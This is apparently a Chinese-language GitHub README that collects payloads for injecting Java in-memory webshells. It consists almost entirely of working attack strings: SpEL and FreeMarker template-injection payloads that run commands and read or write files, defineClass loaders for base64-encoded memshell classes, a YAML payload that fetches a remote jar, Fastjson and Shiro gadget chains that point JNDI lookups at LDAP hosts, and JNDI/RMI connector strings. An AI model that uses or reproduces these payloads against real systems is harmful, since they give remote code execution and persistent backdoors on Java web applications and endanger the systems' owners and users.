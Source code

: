 # Memoryshell-JavaALL
收集内存马打入方式

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
<#assign+value="freemarker.template.utility.ObjectConstructor"?new()("java.io.FileReader","C:\\Temp\\test.txt")>${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner",value).useDelimiter("\\Aasd").next()}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```

不出网时： 

感觉搭配C3P0 得方式还是没有这种带来的安全感足

ScriptEngineManager(目前比较通用的一种方式，思路也比较好。同时拓展一下如果可以通过反序列化落地，那如果拥有上传接口也可以通过上传落地再进行加载。)

第一步：通过反序列化实现文件落地

第二步：加载本地文件内容

```
复现链接：https://xz.aliyun.com/t/10655
```

## Fastjson

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

## Shiro Cookie 过长？ 不防看看这种方法
熟悉得师傅一下就可以看出内存马怎们打了吧
```
    final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    queue.add("1");
    queue.add("1");
    Reflections.setFieldValue(comparator, "property", "parameterMetaData");
    JdbcRowSetImpl test =  new com.sun.rowset.JdbcRowSetImpl();
    test.setDataSourceName("ldap://823s64b3.dns.1433.eu.org.");
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = test;
    return queue;
```
------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
